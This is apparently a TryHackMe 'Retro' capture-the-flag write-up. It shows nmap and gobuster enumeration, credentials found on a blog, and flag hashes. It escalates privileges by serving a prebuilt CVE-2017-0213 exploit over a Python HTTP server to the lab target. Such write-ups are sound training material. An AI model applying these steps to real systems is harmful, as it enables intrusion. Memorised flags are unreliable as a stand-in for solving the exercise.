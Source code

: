 # Retro

New high score!

[Retro](https://tryhackme.com/room/retro)

## 💢 We will cover  the topics

- Network Enumeration
- Web Enumeration
- Web Poking
- CVE-2017-0213 - Windows COM Aggregate Marshaler/IRemUnknown2



---------------------------------

## Pwn

Can you time travel? If not, you might want to think about the next best thing.

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

---

There are two distinct paths that can be taken on Retro. One requires significantly less trial and error, however, both will work. Please check writeups if you are curious regarding the two paths. An alternative version of this room is available in it's remixed version Blaster.

```
kali@kali:~/CTFs/tryhackme/Retro$ sudo nmap -A -p- -sC -sV -Pn 10.10.222.128
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-04 09:46 CEST
Nmap scan report for 10.10.222.128
Host is up (0.039s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2020-10-04T07:51:25+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2020-10-03T07:44:58
|_Not valid after:  2021-04-04T07:44:58
|_ssl-date: 2020-10-04T07:51:26+00:00; +3m07s from scanner time.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2016 (89%), FreeBSD 6.X (85%)
OS CPE: cpe:/o:microsoft:windows_server_2016 cpe:/o:freebsd:freebsd:6.2
Aggressive OS guesses: Microsoft Windows Server 2016 (89%), FreeBSD 6.2-RELEASE (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 3m06s, deviation: 0s, median: 3m06s

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   38.93 ms 10.8.0.1
2   38.96 ms 10.10.222.128

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 133.01 seconds
```

1. A web server is running on the target. What is the hidden directory which the website lives on?

```
kali@kali:~/CTFs/tryhackme/Retro$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.222.128
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.222.128
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/10/04 09:50:53 Starting gobuster
===============================================================
/retro (Status: 301)
Progress: 31140 / 220561 (14.12%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/10/04 09:53:15 Finished
===============================================================
```

`/retro`

- [One Comment on “Ready Player One”](http://10.10.222.128/retro/index.php/2019/12/09/ready-player-one/#comment-2)

![](2020-10-04_09-54.png)

- `wade`
- `parzival`

2. user.txt

![](2020-10-04_09-57.png)

`3b99fbdc6d430bfb51c72c651a261927`

3. root.txt

```
kali@kali:~/CTFs/tryhackme/Retro$ unzip CVE-2017-0213_x64.zip
Archive:  CVE-2017-0213_x64.zip
  inflating: CVE-2017-0213_x64.exe
kali@kali:~/CTFs/tryhackme/Retro$ sudo python3 -m http.server 80
[sudo] password for kali:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.222.128 - - [04/Oct/2020 10:11:22] "GET / HTTP/1.1" 200 -
10.10.222.128 - - [04/Oct/2020 10:11:22] code 404, message File not found
10.10.222.128 - - [04/Oct/2020 10:11:22] "GET /favicon.ico HTTP/1.1" 404 -
10.10.222.128 - - [04/Oct/2020 10:11:34] "GET /CVE-2017-0213_x64.exe HTTP/1.1" 200 -
```

![](2020-10-04_10-14.png)

`7958b569565d7bd88d10c6f22d1c4063`
